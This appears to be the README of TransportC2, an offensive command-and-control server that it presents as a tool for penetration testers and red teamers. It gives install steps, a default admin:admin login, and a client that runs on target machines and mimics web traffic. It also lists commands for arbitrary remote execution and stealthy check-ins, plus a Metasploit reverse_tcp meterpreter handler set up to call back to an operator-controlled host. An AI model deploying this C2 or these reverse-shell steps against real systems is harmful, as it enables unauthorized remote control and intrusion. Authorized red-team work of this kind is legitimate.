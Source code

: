 # TransportC2

### Summary
TransportC2 is a command and control server that is able to run in the background as a service. This allows penetration testers and red teamers the ability to spend time gathering target machines, without being tied to an active session. Interact with clients through a private web interface that requires authentication, and allows administrators to add multiple users. All logins, commands, and responses are logged to provide a traceable point of reference.

Why "Transport"? TransportC2 is meant to be a long-term command and control server that allows users to direct payloads to other, shorter-term channels. This is exemplified by the built-in Metasploit payload, simply execute "msfpayload 192.168.1.1 4444" to open a meterpreter session on an infected client.


### Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

*Modify server configurations prior to running the install script @ server/config.py*

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


### Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 https_client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
```
stealth [int1] [int2]                   - Change client check-in intervals
msfpayload [ip] [port]                  - Launch Built in meterpreter payload
change_date [4-digit yr],[month],[day]  - Change max kill date on client
close                                   - Close / kill client
[command]                               - Execute payload on client
```

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```


### Screenshots
![user Login](server/AdminServer/static/img/login.png)
<br><br>
![Cmd_Panel](server/AdminServer/static/img/cmd.png)
